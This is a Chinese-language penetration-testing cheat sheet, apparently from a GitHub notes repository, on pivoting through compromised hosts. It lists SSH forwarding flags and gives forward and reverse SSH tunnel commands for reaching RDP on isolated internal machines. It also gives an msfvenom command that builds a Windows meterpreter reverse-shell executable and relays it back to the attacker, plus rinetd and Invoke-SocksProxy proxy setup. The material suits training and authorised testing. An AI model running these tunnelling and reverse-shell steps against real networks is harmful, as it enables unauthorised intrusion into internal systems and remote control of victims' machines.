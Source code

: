   #### SSH
	-C 压缩传输，加快传输速度
	-f 在后台对用户名密码进行认证
	-N 仅仅只用来转发，不用再弹回一个新的shell -n 后台运行
	-q 安静模式，不要显示任何debug信息
	-l 指定ssh登录名
	-g 允许远程主机连接到本地用于转发的端口
	-L 进行本地端口转发
	-R 进行远程端口转发
	-D 动态转发，即socks代理
	-T 禁止分配伪终端
	-p 指定远程ssh服务端口
  #### 正向转发
	外网靶机110
	内网靶机115
	本地攻击机编辑后restart ssh服务
	#vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	>ssh -C -f -N -g -L 33890:192.168.0.115:3389 root@192.168.0.110 -p 22
	本地攻击机执行，本地33890转发到远程的3389端口
	上线MSF
	攻击机?出网Linux靶机--不出网Linux靶机--不出网win机
	>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=不出网Linux机 lport=12138 -f exe -o /var/www/html/1.exe
	攻击机监听端口12345
	不出网Linux机
	>ssh -C -f -N -g -L 0.0.0.0:12138:攻击机:12345 root@出网Linux主机 -p 22
  #### 反向转发
	外网攻击107
	内网靶机97
	出网靶机编辑后restart ssh服务
	#vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	>ssh -C -f -N -g -R 33890:10.1.1.97:3389 root@192.168.0.107 -p 22
	出网靶机执行，把外部攻击机33890转发到内部隔离网络的3389
	>netstat –tnlp
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/165.png)

	转发成功，外网攻击机安装apt install rinetd(正向tcp转发工具)
	>vim /etc/rinetd.conf
	添加0.0.0.0 3389 127.0.0.1 33890
	>service rinetd start
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/166.png)

	看到107是kali攻击机，连接107:33890即可到达内网10.1.1.97的桌面
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/167.png)
  ### Invoke-SocksProxy
	https://gitee.com/RichChigga/Invoke-SocksProxy
	>Import-Module .\Invoke-SocksProxy.psm1 
	>Invoke-SocksProxy -bindPort 12138 建立socks代理，使用代理软件连接
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/168.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/169.png)
